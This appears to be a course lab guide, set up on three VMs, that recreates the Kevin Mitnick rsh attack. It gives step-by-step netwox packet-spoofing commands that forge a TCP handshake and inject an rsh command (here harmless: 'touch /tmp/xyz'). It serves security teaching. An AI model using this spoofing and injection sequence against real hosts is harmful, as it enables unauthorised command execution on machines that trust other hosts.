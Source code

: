 ## The Kevin Mitnick Attack 

### Requirements

In this lab, we will demonstrate the Kevin Mitnick attack - a special case of the TCP session hijack attack. Instead of hijacking an existing TCP connection between victims A and B, the Mitnick attack creates a TCP connection between A and B first on their behalf, and then naturally hijacks the connection. Specifically, Kevin Mitnick created and hijacked rsh connections. In this lab, the attacker's goal is to create a file /tmp/xyz on the victim server machine.

### Setup

3 Linux VMs. VM1 as the victim client; VM2 as the victim server; VM3 as the attacker. The 3 VMs reside in the same network - in the original Kevin Mitnick attack, the attacker's machine was not in the same network. Back then TCP sequence numbers were easily predictable, today it is not. To simulate the attack and simplify our task, we assume we still know the sequence numbers - we will, in the lab, obtain the sequence numbers from wireshark. We will then use "netwox 40" to perform packet spoofing. In the following document, we assume the victim client's IP is 10.0.2.15, and the victim server's IP is 10.0.2.10.

Background knowledge: In rsh, two TCP connections are needed. One for normal communication, the other for sending error messages. In the first connection, client port must be 1023, server port must be 514. In the second connection, server port must be 1023, client port can be anything - in this lab, we will choose 9090.

### Preparation steps: 

step 1. installing rsh on client, server, and the attacker's machine. Run the following two commands on all 3 VMs:

```console
# sudo apt-get install rsh-redone-client
# sudo apt-get install rsh-redone-server
```

step 2. configure rsh on the victim server machine.

```console
$ touch .rhosts
$ echo [victim client’s IP address] > .rhosts (replace "victim client's IP address" with the actual IP address)
$ chmod 644 .rhosts
```

These commands look like this:
![alt text](lab-mitnick-rsh-config.png "rsh works")

If the above configuration is correct, you should be able to run the follow command on the victim client machine, and it will show you current date information.

```console
# rsh [victim server’s IP] date
```

Like this:
![alt text](lab-mitnick-rsh-good.png "rsh works")

As a comparison, if you run the same command from the attacker's machine, you will get an error like this:
![alt text](lab-mitnick-rsh-bad.png "rsh doesn't work")

step 3. simulating the syn flooding attack.

3.1: on the victim server, run:

```console
# sudo arp -s [victim client’s IP] [victim client’s MAC]
```

This step is needed so that the server remembers the MAC address of the client, which is needed for the server to send packets to the client.

This screenshot shows how to find the victim client's MAC address:
![alt text](lab-mitnick-arp.png "setting up arp cache")

3.2: shutdown the victim client VM - we do so to simulate the situation when the client is under serious syn flooding attack and can't respond. **Explanation**: why do we want the server to remember the MAC address of the client? Because computers in the same network use MAC addresses, instead of IP addresses, to communicate. And once we shutdown the victim client, if the server doesn't know the victim client's MAC address, the server simply won't send any packet to the client; but our attack won't be successful if the server doesn't send any packet to the client.

step 4. in the attacking steps (next section), right after step 6.1, we need to run step 6.2 as soon as possible, otherwise the server will RESET the 1st TCP connection; similarly, right after step 6.3, we need to run step 7.1 as soon as possible, otherwise the server will RESET the 2nd TCP connection. Therefore, writing a sniffing-and-spoofing script would be the better way to perform this attack.

Alternatively, we can run these two commands on the server so that it does not RESET that fast.

```console
# sudo sysctl -w net.ipv4.tcp_syn_retries=50
# sudo sysctl -w net.ipv4.tcp_synack_retries=50
```

**Explanation**: these two commands are saying, do not reset the tcp connection, unless one party of the connection has tried syn more than 50 times; do not reset the tcp connection, unless one party of the connection has tried syn-ack more than 50 times.

step 5. turn on wireshark on the attacker's VM and start capturing. also, sanity check - make sure there is no such a file called /tmp/xyz on the server side - as our ultimate goal in this lab is to create such a file.

### Attacking steps:

step 6. create the first TCP connection. 

step 6.1: On the attacker's VM, send a spoofed SYN packet to the victim server.

```console
# sudo netwox 40 --tcp-syn --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 1023 --tcp-dst 514
```

step 6.2: right after the above command, netwox would show us the sequence number of this SYN packet, let's say it's x. Then in wireshark, identify the SYN-ACK packet coming from the victim server to the victim client and find out its sequence number, let's say it's y. Now we send the ACK packet to complete the TCP 3-way handshake.

```console
# sudo netwox 40 --tcp-ack --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 1023 --tcp-dst 514 --tcp-acknum y+1 --tcp-seqnum x+1
```

step 6.3: send one ACK packet to the server. This packet carries the command we want to run:

```console
# sudo netwox 40 --tcp-ack --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 1023 --tcp-dst 514 --tcp-acknum y+1 --tcp-seqnum x+1 --tcp-data "393039300073656564007365656400746f756368202f746d702f78797a00" 
```

note: step 6.2 and step 6.3 are the same command, except that --tcp-data part.

**Explanation**: why the tcp data is "393039300073656564007365656400746f756368202f746d702f78797a00"? Because in netwox 40, --tcp-data specifies the data you want to transfer, and in our case, we want to transfer an rsh command "touch /tmp/xyz". In rsh, its data's structure is:

[port number]\x00[uid_client]\x00[uid_server]\x00[your command]\x00

thus, in order to inject a command "touch /tmp/xyz", the data we should inject is "9090\x00seed\x00seed\x00touch /tmp/xyz\x00", and then we need to convert it into hex numbers:

```console
$ python
>>> "9090\x00seed\x00seed\x00touch /tmp/xyz\x00".encode("hex")
'393039300073656564007365656400746f756368202f746d702f78797a00'
```

step 7. create the second TCP connection. After the above ACK packet, the server would automatically sends a SYN packet to the client so as to establish the 2nd TCP connection. We just need to respond a fake SYN-ACK packet. Let's say the sequence number of this SYN packet is z, then in our SYN-ACK packet, the ack num needs to be z+1, the sequence number can be anything.

step 7.1: 

```console
# sudo netwox 40 --tcp-syn --tcp-ack --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 9090 --tcp-dst 1023 --tcp-acknum z+1
```

### Verification steps:

step 8. on the victim's server machine, see if /tmp/xyz is created.


